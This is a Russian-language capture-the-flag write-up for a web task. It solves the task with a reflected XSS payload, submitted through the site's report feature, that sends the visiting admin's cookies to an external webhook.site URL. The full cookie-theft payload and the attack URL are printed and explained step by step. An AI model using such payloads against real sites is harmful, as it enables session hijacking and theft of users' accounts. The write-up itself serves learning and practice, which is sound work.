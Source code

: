 # oh my hacking god
**level**: **Medium**

**Description**: Какой-то админ ворует наши публикации и выставляет их на свой сайт. Нам нужно что-то предпринять.


**IP**: 62.173.140.174:16013


## Решение

Таск связан с XSS уязвимостью. Передадим payload в поле поиска для проверки.

```javascript
<script>alert('XSS')</script>
```

Если подробно рассмотреть сайт, то можно увидеть кнопку **report**.


Мы можем украсть его куки, тк проверять будет админ :)
Напишем такой payload.

```javascript
<script>
  document.location='https://webhook.site/1d127777-dc37-44fb-af01-f47a71bdefd2/?cookie='%252bencodeURIComponent(document.cookie)
</script>
```

И добавим его к нашему **report-у**.

```
http://62.173.140.174:16013/?report=http://62.173.140.174:16013/?search=<script>document.location='https://webhook.site/1d127777-dc37-44fb-af01-f47a71bdefd2/?cookie='%252bencodeURIComponent(document.cookie)</script>
```

Что это значит?

Данный URL запрос содержит два параметра: "**report**" и "**search**". Параметр "**report**" содержит ссылку на себя же `http://62.173.140.174:16013/?search=`, а параметр "**search**" содержит скрипт JavaScript, который использует XSS уязвимость для отправки пользовательских cookie на внешний сервер ( в данном случае на `https://webhook.site/1d127777-dc37-44fb-af01-f47a71bdefd2/?cookie=` ).

Рассмотрим подробнее:

- **document.location** используется здесь для перенаправления пользователя на заданный URL `https://webhook.site/1d127777-dc37-44fb-af01-f47a71bdefd2/?cookie=`. Это сделано с целью отправки украденных cookie на внешний сервер без ведома пользователя.

- Функция **encodeURIComponent()** используется для преобразования специальных символов в их процентное представление в URL. В этом случае, **document.cookie** содержит информацию о cookie пользователя, которая может содержать специальные символы, такие как "=", "&", "?", и др. Функция bencodeURIComponent используется для правильного кодирования всего содержимого document.cookie перед его отправкой на внешний сервер.

- Теперь рассмотрим %252 в выражении %252bencodeURIComponent(document.cookie). %25 в URL представляет собой символ "%". Таким образом, %252 в данном контексте экранирует символ "%", чтобы он был передан как часть параметра в URL. После этого **encodeURIComponent(document.cookie)** кодирует содержимое cookie пользователя, и в результате получается правильный URL, который передаст скрытые cookie на внешний сервер при загрузке страницы с данным скриптом.

Вставим данный URL.

Ура, у нас есть флаг;)
